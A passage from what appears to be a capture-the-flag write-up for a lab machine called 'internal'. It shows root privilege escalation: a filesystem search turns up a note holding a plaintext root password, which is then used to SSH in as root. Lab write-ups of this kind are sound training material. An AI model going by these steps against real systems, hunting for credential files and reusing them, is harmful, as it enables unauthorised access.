 And we're in the docker enviroment !!!!!

## 5. Privilege Escalation (Root)

Ok after understanding with aubreanna credential with the text file, we believe that it would be the same with the root credential. 
The problem with jenkins some commands may not work like normal linux commands so we have to research on how to use the command on jenkins. 
we use the find command to locate a text file within the server. 

```shell
jenkins@jenkins:/$ find / -name *.txt
find / -name *.txt
/opt/note.txt
```
We checked the /opt to locate the note.txt and what do you know !!!!

```shell
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
jenkins@jenkins:/opt$
```
Root credentials !!!!!!

Now we can SSH the root user.

```shell
$ ssh root@internal.thm     
root@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug  8 13:42:12 UTC 2023

  System load:  0.0               Processes:              113
  Usage of /:   63.7% of 8.79GB   Users logged in:        1
  Memory usage: 39%               IP address for eth0:    10.10.42.84
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Aug  3 19:59:17 2020 from <IP>
root@internal:~# whoami
root
```